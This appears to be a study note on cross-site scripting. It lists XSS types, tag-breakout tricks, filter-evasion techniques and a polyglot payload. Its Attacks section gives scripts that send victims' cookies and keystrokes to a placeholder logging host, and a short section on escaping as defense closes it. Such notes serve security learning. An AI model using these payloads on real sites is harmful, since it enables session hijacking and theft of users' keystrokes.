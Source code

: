 # XSS (Cross-Site Scripting) Attacks

Types of XSS attacks:

* Reflected (URL-based, no server-side storage)
* Stored
* DOM-based (really client-side)

DOM-based attacks are *client* side - with both reflected and stored XSS, the server is embedding the attack into the page that's being rendered. For DOM-based attacks, it's the *client* that inserts the malicious JavaScript into the page (even if the data was provided by the server). Ask yourself: "How did this get into the page? Did the server put it there (reflected/stored XSS), or did my client put it there (DOM-based XSS)?"

The canonical (but highly annoying) XSS PoC is:

```html
<script>alert('XSS');</script>
```

A much less annoying XSS test is to manipulate the `innerHTML` of page elements:

```html
<script>
	xssTest
		= document.querySelector("h1");
	xssTest.innerHTML = "XSS was here!";
</script>
```

* [Document.querySelector()](https://developer.mozilla.org/en-US/docs/Web/API/Document/querySelector)

## Tips for Writing JavaScript

JavaScript accepts back-ticks as a type of quotation mark, so we actually have three different marks to work with (single quote, double quote, and back-tick).

Sometimes you'll need to break out of a tag that you're being inserted into. Various options:

* Use `">` if you're being inserted into an HTML attribute.
* Use `</pre>` or `</textarea>` for preformatted blocks and text areas.
* Use `';` followed by `;//` for direct JavaScript inserts. (Note that it's only possible to insert `<script/>` tags if the JavaScript you're abusing is being included from a file, as HTML parsers are greedy about the closing `</script>` tag.)

Most regular expressions and filters are only executed in a single pass. Thus, a regular expression that's filtering out `<script>` and `</script>` tags can be circumvented by using `<s<script>cript>` and `</s</script>cript>`. That said, this trick doesn't work for regular expressions that are removing single characters (for example, `<` and `>`).

You can also use the `onload` attribute to pull in JavaScript, though note that this is only functional the first time the page is loaded. This will often require you to close out the preceding attribute (`"`) and *leave off* the trialing `"` of the `onload` attribute in order for everything to work properly.

There's also "polygot" strings which work in a variety of contexts. These have some pretty wild escaping going on; for example, the following (lightly modified from TryHackMe's example) produces an "XSS" alert:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!><sVg/<sVg/oNloAd=alert('XSS')//>>
```

## Filter Evasion

### Bypass Simple Word Filtering

In general, you can break up strings to get around this.

```javascript
alert("H" + "ello")
```

The `eval()` function can be used to turn strings into function names if a function is filtered.

```javascript
eval("a" + "lert")("Hello")
```

It's also possible (and safer, though if we're breaking into things we probably care a lot less about safety) to use `window[]`.

```javascript
window["a" + "lert"]("Hello")
```

For really heavy filtering, use something nutso like JSFuck.

(Note that things like the JavaScript Obfuscator Tool won't always remove functions and strings, as they tend to be geared more towards thwarting script analysis than bypassing filters.)

Sometimes filters are applied in a case-sensitive fashion. While JavaScript *is* case-sensitive, URL schemes, HTML tag names, and HTML tag attributes are case-*insensitive* (so, `javascript:` is treated the same as `javaSCRIPT:`, `onclick` is treated the same as `ONCLICK`, etc.).

* [JSFuck](http://www.jsfuck.com/)
* [JavaScript Obfuscator Tool](https://obfuscator.io/)

### Using iFrames and Images

Typically XSS attacks work by injecting `<script/>` tags, but it's also possible to inject JavaScript using the `<iframe/>` and `<img/>` tags by setting the `src` attribute to the `javacript:` pseudo-protocol. For example:

```html
<!-- iframe injection -->
<iframe src="javascript:alert('XSS');"/>

<!-- img injection -->
<img src="javascript:alert('XSS');"/>
```

Note, however, that JavaScript loaded in an `<iframe/>` won't have access to the parent page's DOM.

### Fallbacks Requiring User Interaction

Finally, `javascript:` URIs can also be included in anchor(`<a/>`) `href` attributes, as well as `onmouseover` and `onclick` attributes (which can be attached to almost any HTML tag). Getting these attacks to fire requires a user to interact with the modified tag, however.

## Attacks

### Accessing Browser Cookies

```html
<script>
	fetch(
		'https://example.com/log'
			+ '?cookie='
			+ btoa(document.cookie)
	);
</script>
```

### Keylogging

```html
<script>
	document.onkeypress = function(e) {
		fetch(
			'https://example.com/log'
				+ '?cookie='
				+ btoa(document.cookie)
				+ '&keypress='
				+ btoa(e.key)
		);
	}
</script>
```

Adding the user's session cookie here allows us to tell whose keystrokes are whose!

* [Document.cookie](https://developer.mozilla.org/docs/Web/API/Document/cookie)

### Port Scanning

[An example JavaScript port scanner (possibly broken).](https://github.com/aabeling/portscan)

### Website Defacement

You can access elements of the DOM using `document.getElementById("element-id")` or `document.querySelector("#element-id")`. The `querySelector()` method is a bit more flexible (you can use CSS-style selectors here) and should probably be preferred.

To get/set the content of an element, use the `innerHTML` method (to insert HTML directly into the DOM), or alternately `innerText` or `textContent` to set element text *only*.

Note that `<script/>` tags inserted by setting an element's `innerHTML` are *not* executed, however!

## Defense

The key to defending against XSS is really to get your encoding right. User-generated code that's passed off to JavaScript needs to be JavaScript-escaped first. User-generated code that's written into the DOM needs to be HTML-escaped first. Know what the context is of your data, and escape/unescape appropriately when writing data from one context to another!
